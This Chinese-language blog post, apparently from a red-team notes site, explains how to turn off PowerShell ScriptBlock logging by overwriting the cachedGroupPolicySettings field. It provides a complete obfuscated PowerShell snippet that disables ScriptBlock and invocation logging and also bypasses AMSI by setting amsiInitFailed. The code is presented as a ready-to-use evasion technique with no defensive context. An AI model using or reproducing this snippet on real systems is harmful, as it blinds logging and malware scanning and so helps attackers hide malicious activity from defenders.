```yaml
---
title: 利用cachedGroupPolicySettings关闭ScriptBlockLogging
date: 2020-12-31 23:59:55 +0800
categories: [域安全, TA0005防御逃逸]
tags: [ScriptBlockLogging, TA0005防御逃逸]     # TAG names should always be lowercase
typora-root-url: ..
---
```




**参考**：

[PowerShell ScriptBlock Logging Bypass](https://cobbr.io/ScriptBlock-Logging-Bypass.html)



In Windows 10 / PowerShell 5.0, Microsoft introduced several new security features in PowerShell. These included the AMSI, Protected Event Logging, and maybe most importantly **ScriptBlock logging**. 



```
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104}
```

![image-20210102180659185](/assets/img/image-20210102180659185.png)



每当powershell发现一个ScriptBlock，就会查询Group Policy setting是否需要记日志；如果设置了`System.Management.Automation.Utils`中的cachedGroupPolicySettings`，powershell会直接读取缓存的查询结果。

通过将查询结果赋值为"不记入日志"来临时关闭ScriptBlockLogging，此设置只对当前powershell session有效，并且并没有实际修改组策略、注册表中的设置。



```
// 混淆版本，同时关闭ScriptBlockLogging和AMSI
If($PSVerSioNTaBle.PSVERSiON.MAjOr -gE 3){
  $GPF=[reF].AssemBLy.GeTTypE('System.Management.Automation.Utils')."GetFiE`ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
  If($GPF){
    $GPC=$GPF.GEtVaLue($NUll);
    IF($GPC['ScriptB'+'lockLogging']){
      $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
      $GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
      }
    $vAL=[CoLleCtIONS.GeNERic.DicTIonaRy[sTRIng,SystEM.ObjEct]]::NEw();
    $vaL.ADD('EnableScriptB'+'lockLogging',0);
    $VaL.Add('EnableScriptBlockInvocationLogging',0);
    $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl
    } ELse{
    [SCrIptBloCK]."GeTFiE`LD"('signatures','N'+'onPublic,Static').SETVALUE($NUll,(NeW-ObjecT COLlectionS.GENeRic.HashSet[StRing]))}
    [ReF].ASsEmBly.GETTYpE('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GEtFIELD('amsiInitFailed','NonPublic,Static').SeTVALUE($nUll,$true)};
}
```



![image-20210102181516560](/assets/img/image-20210102181516560.png)